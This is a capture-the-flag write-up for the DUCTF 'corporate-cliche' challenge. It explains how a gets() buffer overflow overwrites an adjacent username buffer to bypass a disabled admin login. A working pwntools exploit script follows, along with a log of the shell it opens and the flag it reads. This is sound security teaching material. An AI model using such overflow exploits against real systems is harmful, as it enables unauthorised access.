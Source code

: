 # corporate-cliche

We are given a binary, some C source code and a remote instance to connect to.

Looking at the source code, our goal is to get the `open_admin_session()` function to run and pop a shell.

We have the credentials hard coded into the app:

```
const char* logins[][2] = {

    {"admin", "🇦🇩🇲🇮🇳"},

    {"guest", "guest"},

};
```

Connecting to the program and logging in with the guest account just brings up a useless email. Trying to login with the username `admin` gives us an error.

```
Enter your username: admin
-> Admin login is disabled. Access denied.
```

Looking back at the source code, after you enter a username, it checks to see if it is `admin` and if so it prints an error and exits. 

```
    if (strcmp(username, "admin") == 0) {
        printf("-> Admin login is disabled. Access denied.\n");
        exit(0);
    }
```

There is a way to bypass this however. If we look at how the `username` and `password` variables are initialised, we can see they are set to a 32 byte buffer, straight after each other in memory

```
    char password[32];
    char username[32];
```

Looking at how the program gets the password, we can see it uses `gets()` which is an insecure function as it allows us to write past the buffer.

```
    printf("Enter your password: ");
    gets(password);
```

This means we overwrite the `username` variable after it checks whether we are trying to login as admin or not. To test this, I connect to the app, type in my username as `guest` and in type `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin` and this bypasses the username check!

```
Enter your username: guest
Enter your password: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin
-> Incorrect password for user 'admin'. Access denied.

```

Now all we need to go is make sure the password for admin is entered correctly. The program uses `strcmp()` to check the password which will read a string up to a null terminator (`\x00`).

```
if (strcmp(password, logins[i][1]) == 0) {
                printf("-> Password correct. Access granted.\n");
                if (strcmp(username, "admin") == 0) {
                    open_admin_session();
                } else {
                    print_email();
                }
```

We can use pwntools in Python to create a payload to do this easily.

```
from pwn import *
from pwn import context

context.binary = './email_server'
context.log_level = "debug"

p = remote("chal.2025.ductf.net", 30000)

p.sendlineafter(b"Enter your username: ", b"guest")

password = "🇦🇩🇲🇮🇳".encode("utf-8")
payload = password + b"\x00"

payload += b"A" * (32 - len(payload))

payload += b"admin\x00"

p.sendlineafter(b"Enter your password: ", payload)

p.interactive()
```

This script will enter `guest` as the username, bypassing the username check. It will add the admin password to the payload with a null terminator. It will then pad the of the `password` buffer with `A` characters and finally add the username `admin` to the payload (with a null terminator for good practice).

Once the script has created the payload, it will send it as the password. After running this script, we get a message that we have successfully logged in as `admin` and popped a shell!

```
[*] Switching to interactive mode
[DEBUG] Received 0x51 bytes:
    b'-> Password correct. Access granted.\n'
    b'-> Admin login successful. Opening shell...\n'
-> Password correct. Access granted.
-> Admin login successful. Opening shell...
$ ls
[DEBUG] Sent 0x3 bytes:
    b'ls\n'
[DEBUG] Received 0x16 bytes:
    b'flag.txt\n'
    b'get-flag\n'
    b'pwn\n'
flag.txt
get-flag
pwn
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x41 bytes:
    b'DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}\n'
DUCTF{wow_you_really_boiled_the_ocean_the_shareholders_thankyou}
$
```
